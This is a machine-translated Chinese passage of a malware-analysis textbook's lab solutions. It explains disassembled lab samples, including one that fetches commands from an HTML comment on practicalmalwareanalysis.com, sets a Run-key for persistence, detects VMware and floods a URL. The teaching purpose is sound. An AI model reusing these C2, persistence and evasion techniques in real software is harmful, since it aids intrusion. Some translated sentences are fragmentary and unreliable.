



要确定 Windows API

DllMain 直接调用的函数中可见，我们滚动

通过该方法查找 API 调用，

或者选择**视图****图形****从...查看交叉引用**以打开图 5-5L 所示的对话框。

起始地址和结束地址应该对应

spond to the start of DllMain—specifically,

**5**

0x1000D02E. 因为我们只关心

从 DllMain 的交叉引用，我们选择递归深度为 1 以仅显示函数

直接调用的 DllMain。图 5-6L 显示了

的结果图。（API 调用在

灰色。）要查看递归调用中调用的所有函数，

深度为 2，遵循相同的步骤并选择

递归深度为 2。结果将是一个更

更大的图，甚至显示了递归调用

返回到 DllMain。

*图 5-5L：设置对话框*

*一个自定义的交叉引用图*

*从 0x1000D02E*

*图 5-6L：DllMain 的交叉引用图，递归深度为 1*

如第 14 题所述，在 0x10001358 处有一个调用 Sleep，如下所示。Sleep 接受一个参数——休眠的毫秒数——我们看到它作为 EAX 压入堆栈。

10001341 mov eax, **off_10019020**

10001346 add eax, 0Dh

10001349 push eax ; Str

1000134A call ds:**atoi**

10001350 imul eax, 3E8h

10001356 pop ecx

10001357 push eax ; dwMilliseconds

10001358 call ds:**Sleep**

反向工作，看起来 EAX 被乘以 0x3E8（或十进制的 1000），这告诉我们 atoi 调用的结果被乘以 1000

再次反向工作，我们看到了实验室解决方案

**499**

[www.it-ebooks.info](http://www.it-ebooks.info/)

off_10019020 被移动到 EAX 中。我们可以通过双击它来查看偏移量处的值。这是一个指向字符串[This is CTI]30 的引用。

接下来，我们看到偏移量增加了 0xD，这使得 EAX 指向 30，以便调用 atoi，将字符串 30 转换为数字 30。

将 30 乘以 1000，我们得到 30,000 毫秒（30 秒），这就是程序在字符串执行时将休眠的时间。

如第 15 题所述，在 0x10001701 处有一个调用 socket，如表 5-1L 的左侧列所示。我们看到 6、1 和 2 被压入堆栈。这些数字对应于 MSDN 页面上 socket 描述的符号常量。右键单击每个数字并选择**使用符号常量**将显示一个对话框，列出 IDA Pro 为特定值拥有的所有常量。在这个例子中，数字 2 对应于 AF_INET，用于设置 IPv4 套接字；1 代表 SOCK_STREAM，6 代表 IPPROTO_TCP。因此，这个套接字将配置为基于 IPv4 的 TCP（通常用于 HTTP）。

**表 5-1L：在调用 socket 之前应用符号常量** **符号常量之前**

**符号常量之后**

100016FB push 6

100016FB push **IPPROTO_TCP**

100016FD push 1

100016FD push **SOCK_STREAM**

100016FF push 2

100016FF push **AF_INET**

10001701 call ds:socket

10001701 call ds:socket

为了回答第 17 题，我们通过选择**搜索****文本**并输入**in**来搜索 in 指令（我们也可以选择**搜索****序列** **字节**并搜索**ED**，in 指令的操作码）。如果我们检查搜索对话框中的**查找所有匹配项**，任一选项都会打开一个新窗口，列出所有匹配项。滚动结果只显示一个 in 指令实例在 0x100061DB，如下所示：100061C7 mov eax, **564D5868h ; "VMXh"**

100061CC mov ebx, 0

100061D1 mov ecx, 0Ah

100061D6 mov edx, 5658h

100061DB **in** eax, dx

在 0x100061C7 处的 mov 指令将 0x564D5868 移入 EAX。右键单击此值显示它对应于 ASCII 字符串 VMXh，这证实了此段代码是恶意软件正在使用的反虚拟机技术。（我们在第十七章中讨论了此技术及其他技术。）检查执行此技术的函数的交叉引用，当我们在代码中看到 Found Virtual Machine 后，提供了进一步的确认。

如问题 18 所述，我们使用 G 键将光标跳转到 0x1001D988。在这里，我们看到看起来像是随机字节的数据，没有任何可读内容。正如建议的那样，我们通过选择 **文件**

**脚本文件**并选择下面的 Python 脚本。

**500**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

sea = ScreenEA() 

for i in range(0x00,0x50):

b = **Byte**(sea+i)

decoded_byte = b ^ 0x55 

**PatchByte**(sea+i,decoded_byte)

在 ，脚本获取光标当前位置，用作解码数据的偏移量。接下来，它从 0 到 0x50 循环，并使用 Byte 调用获取每个字节的值。它将每个字节与 0x55 进行异或运算。

**6**

在 。最后，它在 IDA Pro 显示中修补字节，而不修改原始文件。您可以轻松地为此脚本进行自定义以供自己使用。

脚本运行后，我们看到 0x1001D988 处的数据已被更改为更易读的内容。我们可以通过在键盘上按下 A 键，并将光标置于 0x1001D988 处，将其转换为 ASCII 字符串。这揭示了字符串 xdoor is this backdoor, string decoded for Practical Malware Analysis Lab :)1234\.

**实验 6-1 解答**

***简短回答***

1\.

主要代码结构是一个位于 0x401000 的 if 语句。

2\.

printf 是位于 0x40105F 的子程序。

3\.

程序检查是否存在活跃的互联网连接。如果找到活跃连接，则打印“成功：互联网连接。”如果没有找到连接，则打印“错误 1.1：无互联网。”此程序可以被恶意软件用于在尝试连接互联网之前检查连接。

***详细分析***

我们首先对可执行文件进行基本静态分析。查看导入项，我们看到 DLL *WININET.dll* 和函数 InternetGetConnectedState 被导入。Windows Internet（WinINet）API 允许应用程序与 HTTP 协议交互，以访问互联网资源。

使用 MSDN，我们了解到这个 Windows API 函数检查本地系统的互联网连接状态。字符串“错误 1.1：无互联网”和“成功：互联网连接”暗示此程序可能在系统上检查活跃的互联网连接。

接下来，我们对这个可执行文件进行基本的动态分析。当从命令行运行此可执行文件时，没有发生什么特别激动人心的事情。

它只是打印“成功：互联网连接”然后终止。

最后，我们将文件加载到 IDA Pro 中进行完整分析。大部分反汇编代码都是由编译器生成的，因此我们需要小心避免迷失在无关代码的兔子洞中。因此，我们从主函数开始，通常这是恶意软件作者编写的代码开始的地方。

在这种情况下，主函数从 0x401040 开始。主函数调用了解决实验室问题的解决方案

**501**

[www.it-ebooks.info](http://www.it-ebooks.info/)

函数 0x401000，这似乎是一个关键函数，因为它是由 main 调用的唯一一个。图 6-1L 显示了这个函数的流程图。

sub_401000:

push ebp

mov ebp, esp

push ecx

push 0

push 0

call ds:InternetGetConnectedState

mov [ebp+var_4], eax

cmp [ebp+var_4], 0

jz short loc_40102B

false

true

00401017:

push offset aSuccessInterne ; "Success: Internet Connection\n"

call printf

add esp, 4

mov eax, 1

jmp short loc_40103A

loc_40102B:

push offset aError1_1NoInte; "Error 1.1: No Internet\n"

call printf

add esp, 4

xor eax, eax

loc_40103A:

mov esp, ebp

pop ebp

retn

*图 6-1L：函数 0x401000 的反汇编流程图*

现在我们使用 IDA Pro 的 **视图****图形****流程图**来绘制这个函数。

通过查看这个图和代码，我们看到一个常见的代码构造：两个不同的代码路径依赖于对 InternetGetConnectedState 调用的结果。

cmp 指令用于比较 EAX 中包含的结果与 0，然后使用 jz 指令来控制流程。

MSDN 页面上的 InternetGetConnectedState 进一步说明，如果存在活动的互联网连接，则该函数返回 1；否则返回 0。

因此，如果结果是 0，代码将采取处的假分支，因为零标志（ZF）将被清除；否则，它将采取处的真分支。

在此函数中使用的代码构造是一个 if 语句。

函数在两个位置调用 0x40105F 处的子程序，但如果我们深入研究该函数，我们很快就会迷失在兔子洞中。这个函数是 printf。令人惊讶的是，IDA Pro 商业版和免费版并不总是能够识别并标记 printf 函数。因此，我们必须寻找某些提示，暗示对 printf 的未标记调用。一种简单的方法是在调用子程序之前识别推送到堆栈上的参数。在这里，在两种情况下，都推送到堆栈上的一个格式字符串。

字符串末尾的 \n 表示换行符。此外，考虑到上下文和**502**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

根据字符串本身，我们可以推断出该函数是 printf。因此，我们将该函数重命名为 printf，以便在代码中标记为这样的，如图 6-1L 所示。一旦调用 printf 函数，我们看到在函数返回之前 EAX 被设置为 1 或 0。

总结来说，此函数检查活动 Internet 连接，然后打印其检查结果，如果连接则返回 1，如果不连接则返回 0。恶意软件通常会执行类似的检查以验证有效的 Internet 连接。

**6**

**Lab 6-2 解决方案**

***简短回答***

1.

0x401000 处的第一个子例程与 Lab 6-1 中的相同。它是一个检查活动 Internet 连接的 if 语句。

2.

printf 是位于 0x40117F 处的子例程。

3.

从主函数中调用的第二个函数位于 0x401040 处。它下载位于 *http://www.practicalmalwareanalysis.com/* 的网页。

*cc.htm* 并从页面开头解析 HTML 注释。

4.

此子例程使用从 InternetReadFile 调用中获取的数据填充的字符数组。该数组逐字节进行比较，以解析 HTML 注释。

5.

有两个基于网络的指示器。程序使用 HTTP

用户代理：Internet Explorer 7.5/pma，并下载位于 *http://www.practicalmalwareanalysis.com/cc.htm* 的网页。

6.

首先，程序检查是否存在活动 Internet 连接。如果没有找到，程序将终止。否则，程序将尝试使用独特的用户代理下载网页。该网页包含一个以 <!-- 开始的嵌入 HTML 注释。从这个注释中解析下一个字符，并以以下格式打印到屏幕上：

“成功：解析的命令是 *X*，”其中 *X* 是从 HTML 注释中解析出的字符。如果成功，程序将休眠 1 分钟然后终止。

***详细分析***

我们首先对二进制文件进行基本静态分析。我们看到一些有趣的新字符串，如列表 6-1L 所示。

错误 2.3：无法获取命令

错误 2.2：无法读取文件

错误 2.1：无法打开 URL

http://www.practicalmalwareanalysis.com/cc.htm

Internet Explorer 7.5/pma

成功：解析的命令是 %c

*列表 6-1L：Lab 6-2 中包含的有趣的新字符串*

实验解决方案

**503**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们看到的三个错误消息字符串表明程序可能打开一个网页并解析一个命令。我们还注意到一个 HTML 网页的 URL，*http://www.practicalmalwareanalysis.com/cc.htm*。该域名可以立即用作基于网络的指示器。

这些导入包含几个用于网络的新 Windows API 函数，如列表 6-2L 所示。

InternetReadFile

InternetCloseHandle

InternetOpenUrlA

InternetOpenA

*列表 6-2L：Lab 6-2 中包含的有趣的新导入函数*

所有这些函数都是 WinINet 的一部分，这是一个用于使用 HTTP 的简单 API。

在网络上。它们的工作方式如下：



使用 InternetOpenA 初始化 WinINet 库的使用，并设置用于 HTTP 通信的用户代理。



使用 InternetOpenUrlA 打开一个指向完整 FTP 或 HTTP URL 指定位置的句柄。（程序使用句柄来访问已打开的东西。我们将在第七章中讨论句柄。）



使用 InternetReadFile 从 InternetOpenUrlA 打开的句柄中读取数据。



使用 InternetCloseHandle 关闭这些文件打开的句柄。

接下来，我们进行动态分析。我们选择监听端口 80

因为 WinINet 经常使用 HTTP，我们在字符串中看到了一个 URL。如果我们设置 Netcat 监听端口 80 并相应地重定向 DNS，我们将看到对*www.practicalmalwareanalysis.com*的 DNS 查询，之后程序从 URL 请求网页，如列表 6-3L 所示。这告诉我们这个网页对恶意软件有某种重要性，但我们不知道具体是什么，直到我们分析汇编代码。

C:\>nc -l -p 80

GET /cc.htm HTTP/1.1

User-Agent: Internet Explorer 7.5/pma

主机: www.practicalmalwareanalysis.com

*列表 6-3L：监听端口 80 时的 Netcat 输出*

最后，我们将可执行文件加载到 IDA Pro 中。我们以 main 方法开始分析，因为其他大部分代码是由编译器生成的。

查看 main 的汇编代码，我们注意到它调用了我们在第 6-1 节中看到的 0x401000 的相同方法。然而，在 main 方法中的两个新调用（401040 和 40117F）在第 6-1 节中没有。

**504**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在对 0x40117F 的新调用中，我们注意到在调用之前有两个参数被推入堆栈。一个参数是格式字符串 Success: 解析的命令是%c，另一个是来自之前调用 0x401148 的返回字节。像%c 和%d 这样的格式字符告诉我们我们正在查看一个格式字符串。因此，我们可以推断 printf 是位于 0x40117F 的子程序，我们应该将其重命名为这样，以便在所有引用的地方都进行重命名。printf 子程序将打印带有%c 被推入堆栈的另一个参数替换的字符串。

接下来，我们检查对 0x401040 的新调用。这个函数包含了我们在基本静态分析过程中发现的所有 WinINet API 调用。它首先**6**

调用 InternetOpen，这初始化了 WinINet 库的使用。注意，在动态分析期间，我们注意到的 User-Agent 7.5/pma 被推入堆栈，与我们在动态分析期间注意到的 User-Agent 相匹配。下一个调用是 InternetOpenUrl，它以参数形式打开推入堆栈的静态网页。这个函数导致了我们在动态分析期间看到的 DNS 请求。

列表 6-4L 显示了 InternetOpenUrlA 和 InternetReadFile 调用。

00401070 call ds:**InternetOpenUrlA**

00401076 mov [ebp+hFile], eax

00401079 cmp [ebp+hFile], 0 

...

0040109D lea edx, [ebp+dwNumberOfBytesRead]

004010A0 push edx ; lpdwNumberOfBytesRead

004010A1 push 200h ; dwNumberOfBytesToRead

004010A6 lea eax, [ebp+Buffer ]

004010AC push eax ; lpBuffer

004010AD mov ecx, [ebp+hFile]

004010B0 push ecx ; hFile

004010B1 call ds:**InternetReadFile**

004010B7 mov [ebp+var_4], eax

004010BA cmp [ebp+var_4], 0 

004010BE jnz short loc_4010E5

*列表 6-4L：InternetOpenUrlA 和 InternetReadFile 调用* 我们可以看到 InternetOpenUrlA 的返回值被移动到局部变量 hFile 中，并在  处与 0 进行比较。如果是 0，则此函数将被终止；否则，hFile 变量将被传递到下一个函数，即 InternetReadFile。hFile 变量是一个句柄——一种访问已打开对象的方式。这个句柄正在访问一个 URL。

InternetReadFile 用于读取由 InternetOpenUrlA 打开的网页。

如果我们阅读关于此 API 函数的 MSDN 页面，我们可以了解其他参数。其中最重要的参数是第二个参数，IDA Pro 将其标记为 Buffer，如图  所示。Buffer 是一个数据数组，在这种情况下，我们将读取多达 0x200 字节的数据，如图  中的 NumberOfBytesToRead 参数所示。由于我们知道此函数正在读取一个 HTML 网页，我们可以将 Buffer 视为一个字符数组。

实验室解决方案

**505**

[www.it-ebooks.info](http://www.it-ebooks.info/)

在调用 InternetReadFile 之后，代码在  处检查返回值（EAX）是否为 0。如果是 0，则函数关闭句柄并终止；如果不是，则此行之后的代码将逐个字符比较 Buffer，如图 6-5L 所示。请注意，每次在将索引移动到寄存器并比较之前，Buffer 的索引都会增加 1。

004010E5 movsx ecx, byte ptr [ebp+Buffer]

004010EC cmp ecx, 3Ch 

004010EF jnz short loc_40111D

004010F1 movsx edx, byte ptr [ebp+Buffer+1] 

004010F8 cmp edx, 21h

004010FB jnz short loc_40111D

004010FD movsx eax, byte ptr [ebp+Buffer+2]

00401104 cmp eax, 2Dh

00401107 jnz short loc_40111D

00401109 movsx ecx, byte ptr [ebp+Buffer+3]

00401110 cmp ecx, 2Dh

00401113 jnz short loc_40111D

00401115 mov al, [ebp+var_20C] 

0040111B jmp short loc_40112C

*列表 6-5L：缓冲区处理*

在  处，cmp 指令检查第一个字符是否等于 0x3C，这对应于 ASCII 中的 < 符号。我们可以在 3Ch 上右击，IDA Pro 将提供将其更改为显示 < 的选项。同样，我们可以在列表中的 21h、2Dh 和 2Dh 处执行此操作。如果我们组合这些字符，我们将得到字符串 <!--，这恰好是 HTML 注释的开始。（在浏览器中查看网页时，HTML 注释不会显示，但您可以通过查看网页源代码来查看它们。）注意在  处，Buffer+1 在与 0x21 (! 在 ASCII) 比较之前被移入 EDX。因此，我们可以假设 Buffer 是从 InternetReadFile 下载的网页中的字符数组。由于 Buffer 指向网页的开始，四个 cmp 指令用于检查网页开始处的 HTML 注释。如果所有比较都成功，则网页以嵌入的 HTML 注释开始，并执行  处的代码。（不幸的是，IDA Pro 没有意识到局部变量 Buffer 的大小为 512，并显示了一个名为 var_20C 的局部变量。）

我们需要修复此函数的栈，以便在整个函数中正确地标记 Buffer 数组，以便显示一个 512 字节的数组。

我们可以通过在函数中的任何位置按 CTRL-K 来完成这个操作。例如，图 6-2L 的左侧显示了初始的栈视图。为了修复栈，我们右击 Buffer 的第一个字节，并定义一个宽度为 1 字节、大小为 512 字节的数组。图例的右侧显示了修复后的栈应该看起来像什么。

以这种方式手动调整栈会导致列表 6-5L 中编号为  的指令显示为 [ebp+Buffer+4]。因此，如果前四个字符（Buffer[0]-Buffer[3]）匹配 <!--，第五个字符将被移入 AL，并从这个函数返回。

**506**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 6-2L：创建数组并修复栈*

返回到主方法，让我们分析 0x401040 函数返回后发生的事情。如果此函数返回非零值，则 **6**

主方法将打印为“成功：解析的命令是 *X*，”其中 *X* 是从 HTML 注释中解析出的字符，随后调用 Sleep 函数在 0x401173 处。使用 MSDN，我们了解到 Sleep 函数接受一个包含要休眠的毫秒数的单个参数。它在栈上推送 0xEA60，这对应于休眠一分钟（60,000 毫秒）。

毫秒）。

总结来说，该程序检查是否存在活跃的互联网连接，然后下载包含字符串 <!-- 的网页，这是 HTML 注释的开始。HTML 注释在网页浏览器中不会显示，但您可以通过查看 HTML 页面源代码来查看它。这种在 HTML 注释中隐藏命令的技术经常被攻击者用来在恶意软件看起来像是要访问正常网页的同时发送命令给恶意软件。

**Lab 6-3 解答**

***简答***

1.

0x401000 和 0x401040 地址处的函数与 Lab 6-2 中的函数相同。

在 0x401271 处是 printf。0x401130 函数是本实验中新的。

2.

新函数接受两个参数。第一个是从 HTML 注释中解析出的命令字符，第二个是程序名称 argv[0]，这是标准的主参数。

3.

新函数包含一个 switch 语句和跳转表。

4.

新函数可以打印错误消息、删除文件、创建目录、设置注册表值、复制文件或休眠 100 秒。

5.

注册表键 Software\Microsoft\Windows\CurrentVersion\Run\Malware 和文件位置 *C:\Temp\cc.exe* 都可以作为基于主机的指示器。

6.

程序首先检查是否存在活跃的互联网连接。如果没有找到互联网连接，程序将终止。否则，程序将尝试下载包含嵌入 HTML 注释的网页，该注释以 <!-- 开始。注释的第一个字符将被解析并用于 switch 语句，以确定在本地系统上采取哪些操作，包括是否删除文件、创建目录、设置注册表运行键、复制文件或休眠 100 秒。

实验解答

**507**

[www.it-ebooks.info](http://www.it-ebooks.info/)

***详细分析***

我们首先对二进制文件进行基本的静态分析，并发现了一些新的有趣字符串，如列表 6-6L 所示。

错误 3.2：未提供有效命令

错误 3.1：无法设置注册表值

恶意软件

Software\Microsoft\Windows\CurrentVersion\Run

C:\Temp\cc.exe

C:\Temp

*列表 6-6L：Lab 6-3 中包含的有趣新字符串*

这些错误消息表明程序可能能够修改注册表。Software\Microsoft\Windows\CurrentVersion\Run 是注册表中的常见自动运行位置。*C:\Temp\cc.exe* 是一个可能作为基于主机的指示器有用的目录和文件名。

通过查看导入项，我们看到一些新的 Windows API 函数，这些函数在 Lab 6-2 中没有找到，如列表 6-7L 所示。

DeleteFileA

CopyFileA

CreateDirectoryA

RegOpenKeyExA

RegSetValueExA

*列表 6-7L：Lab 6-3 中包含的有趣新导入函数*

前三个导入项是显而易见的。RegOpenKeyExA 函数通常与 RegSetValueExA 一起使用，用于将信息插入注册表，通常在恶意软件将自己或另一个程序设置为系统启动时使用，以实现持久性。（我们在第七章中深入讨论 Windows 注册表。）

接下来，我们执行动态分析，但发现它并不很有成效（基于我们在 Lab 6-2 中发现的内容，这并不令人惊讶）。我们可以直接将恶意软件连接到互联网或使用 INetSim 为恶意软件提供网页，但我们不知道在 HTML 注释中应该放什么。因此，我们需要通过查看反汇编代码进行更深入的分析。

最后，我们将可执行文件加载到 IDA Pro 中。主方法看起来几乎与 Lab 6-2 中的相同，除了有一个额外的调用到 0x401130。对 0x401000（检查网络连接）和 0x401040

(下载网页并解析 HTML 注释)与 Lab 6-2 中的相同。

接下来，我们检查传递给 0x401130 的参数。看起来在调用之前，argv 和 var_8 被压入堆栈。在这种情况下，argv 是 Argv[0]，它指向一个包含当前程序名称的字符串，*Lab06-03.exe*。

检查反汇编代码，我们看到 var_8 在 0x40122D 被设置为 AL。

记住 EAX 是从上一个函数调用返回的值，并且 AL 包含在 EAX 中。在这种情况下，上一个函数调用**508**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

是 0x401040（下载网页并解析 HTML 注释）。因此，var_8 包含从 HTML 注释中解析出的命令字符，传递给 0x401130。

现在我们知道了传递给 0x401130 函数的内容，我们可以分析它。列表 6-8L 是从函数开始的部分。

00401136 movsx eax, [ebp+arg_0]

0040113A mov [ebp+var_8], eax

0040113D mov ecx, [ebp+var_8] 

00401140 sub ecx, 61h

**6**

00401143 mov [ebp+var_8], ecx

00401146 cmp [ebp+var_8], 4 

0040114A ja loc_4011E1

00401150 mov edx, [ebp+var_8]

00401153 jmp ds:off_4011F2[edx*4] 

...

004011F2 off_4011F2 dd 偏移 loc_40115A 

004011F6 dd offset loc_40116C

004011FA dd offset loc_40117F

004011FE dd offset loc_40118C

00401202 dd offset loc_4011D4

*列表 6-8L：分析 0x401130 处的函数*

arg_0 是 IDA Pro 的一个自动标签，它列出了调用之前的最后一个参数；因此，arg_0 是从互联网获取的解析命令字符。解析命令字符被移动到 var_8，并最终加载到 ECX 中。下一条指令从 ECX 中减去 0x61（ASCII 中的字母*a*）。因此，一旦这条指令执行，当 arg_0 等于*a*时，ECX 将等于 0。

接下来，一个比较数字 4 的指令检查命令字符（arg_0）是否为 a、b、c、d 或 e。任何其他结果都将强制 ja 指令离开这段代码。否则，我们看到解析命令字符被用作跳转表的索引。

在处，EDX 被乘以 4，因为跳转表是一组引用不同可能路径的内存地址，每个内存地址的大小为 4 字节。在处的跳转表有五个条目，正如预期的那样。这样的跳转表通常在编译器生成 switch 语句的汇编代码时使用，如第六章所述。

**命令字符切换的图形视图**

现在我们来看看这个函数的图形视图，如图 6-3L 所示。

我们看到有六种可能的代码路径，包括五个情况和默认情况。“跳过 4 以上”指令将我们引向默认路径；否则，跳转表将导致 a 到 e 分支的执行路径。当你看到图中的图形（一个盒子通向许多不同的盒子）时，你应该怀疑这是一个 switch 语句。你可以通过查看代码逻辑和跳转表来证实这个怀疑。

实验室解决方案

**509**

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 6-3L：以图形模式显示的函数 0x401130 中的 switch 语句，标记有 switch 选项*

**switch 选项**

接下来，我们将分别检查每个 switch 选项（a 到 e）。



a 选项使用参数 C:\\Temp 调用 CreateDirectory，以创建如果不存在的话的路径。



b 选项调用 CopyFile，它接受两个参数：源文件和目标文件。目标文件是 C:\\Temp\\cc.exe。源文件是传递给此函数的参数，根据我们之前的分析，我们知道它是程序名称（Argv[0]）。因此，此选项会将*Lab06-03.exe*复制到*C:\Temp\cc.exe*。



c 选项使用参数 C:\\Temp\\cc.exe 调用 DeleteFile，如果该文件存在，则删除该文件。



d 选项在 Windows 注册表中设置一个值以实现持久性。具体来说，它将 Software\Microsoft\Windows\CurrentVersion\Run\Malware 设置为*C:\Temp\cc.exe*，这使得恶意软件在系统启动时启动（如果它首先被复制到*Temp*位置）。



e 选项暂停 100 秒。



最后，默认选项打印“错误 3.2：未提供有效的命令。”

完全分析了这个函数后，我们可以将其与我们的 6-2 实验室分析结合起来，以深入了解整个程序的操作方式。

我们现在知道程序使用 if 构造检查活动互联网连接。如果没有有效的互联网连接，程序将终止。否则，程序尝试下载包含以<!--开始的嵌入式 HTML 注释的网页。从这个注释中解析出的下一个字符用于 switch 语句，以确定在本地系统上采取的操作：删除文件、创建目录、设置注册表运行键、复制文件或暂停 100 秒。

**510**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验室 6-4 解决方案**

***简短答案***

1.

0x401000 处的函数是检查互联网连接方法，0x401040 是解析 HTML 方法，0x4012B5 是 printf，0x401150 是 switch 语句。

是 switch 语句。

2.

在主方法中添加了一个 for 循环。

3.

现在位于 0x401040 的函数接受一个参数，并使用**6**调用 sprintf。

格式字符串为 Internet Explorer 7.50/pma%d。它使用传入的参数构建一个用于 HTTP 通信期间使用的 User-Agent。

4.

这个程序将运行 1440 分钟（24 小时）。

5.

是的，使用了新的 User-Agent。它的形式是 Internet Explorer 7.50/

pma%d，其中%d 是程序运行的时间（分钟数）。

6.

首先，程序检查是否存在活动的互联网连接。如果没有找到，程序将终止。否则，程序将使用一个独特的 User-Agent 尝试下载包含计数器的网页，该计数器跟踪程序运行的时间（分钟数）。下载的网页包含一个以<!--开始的嵌入式 HTML 注释。从这个注释中解析出的下一个字符用于 switch 语句，以确定在本地系统上要采取的操作。这些是硬编码的操作，包括删除文件、创建目录、设置注册表运行键、复制文件和睡眠 100 秒。该程序将在 24 小时后终止。

***详细分析***

我们首先对二进制文件进行基本静态分析。我们看到一个有趣的字符串，它不在第 6-3 实验室中，如下所示：

Internet Explorer 7.50/pma%d

看起来这个程序可能使用动态生成的 User-Agent。

查看导入项，我们没有看到第 6-3 实验室中没有的任何 Windows API 函数。在执行动态分析时，我们注意到当看到 Internet Explorer 7.50/pma0 时，这个 User-Agent 发生了变化。

接下来，我们使用反汇编进行更深入的分析。我们将可执行文件加载到 IDA Pro 中，查看主方法，它与第 6-3 实验室中的 main 方法在结构上明显不同，尽管调用了许多相同的函数。我们看到函数 0x401000（检查互联网连接方法）、0x401040（解析 HTML 方法）、0x4012B5（printf）和 0x401150（switch 语句）。您应该在 IDA Pro 中将这些函数重命名为这样，以便更容易分析。

在 IDA Pro 的图形视图模式下查看主方法，我们看到一个向上的箭头，这表示循环。列表 6-9L 显示了循环结构。

实验室解决方案

**511**

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401248 loc_401248

00401248 mov [ebp+var_C], 0 

0040124F jmp short loc_40125A

00401251 loc_401251:

00401251 mov eax, [ebp+var_C]

00401254 add eax, 1 

00401257 mov [ebp+var_C], eax

0040125A loc_40125A:

0040125A cmp [ebp+var_C], 5A0h 

00401261 jge short loc_4012AF

00401263 mov ecx, [ebp+var_C] 

00401266 push ecx

00401267 call sub_401040

...

004012A2 push 60000

004012A7 call ds:Sleep

004012AD jmp short loc_401251 

*列表 6-9L：循环结构*

变量 var_C 是用于循环计数的局部变量。计数器在处初始化为 0，跳过增量操作在处，在处执行检查，并在到达处时返回增量器。这四个代码部分的存在告诉我们我们正在查看一个 for 循环代码结构。如果 var_C（计数器）大于或等于 0x5A0（1440），循环将结束。否则，从开始的代码将被执行。在调用 0x401040 之前，代码将 var_C 压入栈中，然后睡眠 1 分钟，再在处循环并增加计数器。因此，这个过程将重复 1440 分钟，即 24 小时。

在之前的实验中，0x401040 没有接受参数，因此我们需要进一步调查。列表 6-10L 显示了 0x401040 的开始。

00401049 mov eax, [ebp+arg_0]

0040104C push eax 

0040104D push offset aInt ; "Internet Explorer 7.50/pma%d"

00401052 lea ecx, [ebp+szAgent]

00401055 push ecx ; char *

00401056 call _sprintf

0040105B add esp, 0Ch

0040105E push 0 ; dwFlags

00401060 push 0 ; lpszProxyBypass

00401062 push 0 ; lpszProxy

00401064 push 0 ; dwAccessType

00401066 lea edx, [ebp+szAgent] 

00401069 push edx ; lpszAgent

0040106A call ds:InternetOpenA

*列表 6-10L：0x401040 处的函数*

**512**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在这里，arg_0 是唯一的参数，main 是唯一调用 0x401040 的方法，因此我们得出结论，arg_0 始终是从 main 方法中来的计数器（var_C）。Arg_0 在处压入栈中，同时还有一个格式字符串和一个目的地。我们还看到调用了 sprintf，它创建了一个字符串并将其存储在目的地缓冲区中，即本地变量 szAgent。然后 szAgent 在处传递给 InternetOpenA，这意味着每次计数器增加时，User-Agent 都会改变。这种机制可以被攻击者用来管理和监控 Web 服务器，以追踪恶意软件运行了多久。

总结来说，程序使用 if 构造检查是否有活跃的互联网连接。如果没有找到连接，程序将终止。

否则，程序使用唯一的 User-Agent 尝试下载一个**7**

包含来自 for 循环构造的计数器的网页。这个计数器包含了程序运行了多少分钟的数字。网页包含一个嵌入的 HTML 注释，并被读入一个字符数组构造中，并与<!--进行比较。从这个注释中解析出的下一个字符被用于 switch 构造，以确定在本地系统上要采取什么操作。这些是硬编码的操作，包括删除文件、创建目录、设置注册表运行键、复制文件和睡眠 100 秒。这个程序将在运行 1440 分钟（24 小时）后终止。

**实验 7-1 解答**

***简答题***

1.

这个程序创建服务 MalService 以确保每次计算机启动时它都会运行。

2.

程序使用互斥锁确保一次只运行一个程序副本。

3.

我们可以搜索名为 HGL345 的互斥锁和名为 MalService 的服务。

4.

恶意软件使用用户代理 Internet Explorer 8.0 并与*www.malwareanalysisbook.com*通信。

5.

这个程序等待到 2100 年 1 月 1 日的午夜，然后向*http://www.malwareanalysisbook.com/*发送许多请求，可能是在对该网站进行分布式拒绝服务（DDoS）攻击。

6.

这个程序永远不会结束。它等待定时器直到 2100 年，然后创建 20 个线程，每个线程都在一个无限循环中运行。

***详细分析***

深入分析这种恶意软件的第一步是使用 IDA Pro 或类似工具打开它，以检查导入的函数列表。列表中的许多函数提供的信息很少，因为它们通常由 Solutions to Labs 导入。

**513**

[www.it-ebooks.info](http://www.it-ebooks.info/)

所有 Windows 可执行文件，但有一些突出。具体来说，OpenSCManager 和 CreateService 表明这种恶意软件可能创建一个服务以确保在计算机重启时运行。

StartServiceCtrlDispatcherA 的导入暗示这个文件实际上是一个服务。对 InternetOpen 和 InternetOpenUrl 的调用告诉我们，这个程序可能连接到 URL 以下载内容。

接下来，我们跳转到主函数，IDA Pro 已将其标识并标记为 _wmain，位置在 0x401000。快速浏览代码显示它足够短，可以完全分析。_wmain 函数只调用另一个函数，如下所示。如果代码更长，我们只需根据导入表审查，关注最有趣的函数调用。

00401003 lea eax, [esp+10h+ServiceStartTable]

00401007 mov [esp+10h+ServiceStartTable.lpServiceName], offset aMalservice ; "MalService"

0040100F push eax ; lpServiceStartTable

